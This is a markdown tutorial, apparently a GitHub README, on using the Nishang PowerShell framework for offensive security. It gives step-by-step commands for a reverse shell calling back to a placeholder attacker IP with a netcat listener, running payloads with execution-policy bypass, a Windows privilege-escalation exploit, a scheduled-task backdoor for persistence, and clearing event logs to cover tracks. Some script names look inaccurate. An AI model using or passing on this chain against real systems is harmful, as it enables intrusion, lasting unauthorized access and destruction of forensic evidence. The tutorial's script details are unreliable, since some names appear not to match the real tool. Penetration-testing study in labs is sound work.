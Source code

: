 # Nishang

## Step-by-Step Tutorial on Using Nishang for Cybersecurity

Nishang is a framework and collection of PowerShell scripts used in penetration testing and offensive security. It provides various tools for tasks like payload generation, privilege escalation, and information gathering.


### 1. **Setting Up Your Environment**

#### **1.1. Install PowerShell on Your Machine**
If you're using a Windows machine, PowerShell should already be installed. If you're on Linux or macOS, you can install PowerShell using the following commands:

- **For Linux:**
  ```bash
  sudo apt-get update
  sudo apt-get install -y powershell
  ```
  
- **For macOS:**
  ```bash
  brew install --cask powershell
  ```

#### **1.2. Download Nishang**
You can download Nishang directly from its GitHub repository.

```bash
git clone https://github.com/samratashok/nishang
```

This command will clone the repository into a directory named `nishang`.

#### **1.3. Navigate to the Nishang Directory**
Move into the directory where Nishang is stored:

```bash
cd nishang
```

### 2. **Generating Payloads**

Nishang is widely used for generating payloads that can be used for various types of attacks, such as reverse shells.

#### **2.1. Generate a Reverse Shell Payload**

Navigate to the `Shells` directory:

```bash
cd Shells
```

Here you will find multiple scripts for different types of shells. Let's generate a reverse shell:

- **For a TCP reverse shell:**
  Open `Invoke-PowerShellTcp.ps1` in a text editor. Modify the script to include your attacker's IP and port:

  ```powershell
  Invoke-PowerShellTcp -Reverse -IPAddress <Your_IP_Address> -Port <Your_Port>
  ```

- **Save the script:** Once you've modified the script, save it.

- **Start a listener on your attacking machine:** You can use tools like Netcat for this purpose:

  ```bash
  nc -lvnp <Your_Port>
  ```

#### **2.2. Execute the Payload on the Target Machine**
Copy the script to the target machine. Once there, execute it using PowerShell:

```powershell
powershell -ExecutionPolicy Bypass -File .\Invoke-PowerShellTcp.ps1
```

This will create a reverse shell connection to your attacking machine.

### 3. **Privilege Escalation**

Nishang includes scripts to help with privilege escalation on a compromised system.

#### **3.1. Check for Privilege Escalation Opportunities**

Navigate to the `Elevate` directory within Nishang:

```bash
cd ../Elevate
```

- **Use the `Invoke-MS16-032.ps1` script**: This script exploits a vulnerability in the Windows operating system to escalate privileges.

  ```powershell
  .\Invoke-MS16-032.ps1
  ```

  If the exploit is successful, it will give you SYSTEM privileges on the target machine.

### 4. **Information Gathering**

Nishang also includes scripts for gathering information about the target system.

#### **4.1. System Information Collection**

Navigate to the `Gather` directory:

```bash
cd ../Gather
```

- **Use the `Get-Information.ps1` script**: This script collects detailed system information, including OS version, installed software, network configuration, and more.

  ```powershell
  .\Get-Information.ps1
  ```

  The script will output the collected information, which you can analyze for further exploitation.

### 5. **Persistence**

Maintaining access to a compromised system is crucial. Nishang provides scripts to establish persistence.

#### **5.1. Create a Persistent Backdoor**

Navigate to the `Persistence` directory:

```bash
cd ../Persistence
```

- **Use the `Add-SchtasksBackdoor.ps1` script**: This script creates a scheduled task that runs your payload every time the user logs in.

  ```powershell
  .\Add-SchtasksBackdoor.ps1 -PayloadPath <Path_to_Your_Payload>
  ```

  This ensures that even if the system is rebooted, you regain access.

### 6. **Clearing Tracks**

After an operation, it's crucial to remove any traces of your activities to avoid detection.

#### **6.1. Clear Logs**

Navigate to the `Antiforensics` directory:

```bash
cd ../Antiforensics
```

- **Use the `Invoke-EventLogBypass.ps1` script**: This script clears Windows Event Logs to remove traces of your activities.

  ```powershell
  .\Invoke-EventLogBypass.ps1
  ```

  This helps in covering your tracks.

### 7. **Advanced Usage**

Nishang has several other advanced functionalities. Some key areas to explore:

- **Data Exfiltration:** Scripts for extracting data from a compromised system.
- **Bypassing UAC:** Methods to bypass User Account Control (UAC) in Windows.
- **Network Pivoting:** Use Nishang scripts to pivot through networks once inside a compromised machine.

### 8. **Best Practices**

- **Testing in a Lab Environment:** Always test scripts in a controlled lab environment before deploying them in the field.
- **Updating Nishang:** Regularly update Nishang to ensure you have the latest scripts and improvements.
- **Legal Compliance:** Ensure that all actions taken with Nishang are within the bounds of legal and ethical guidelines.

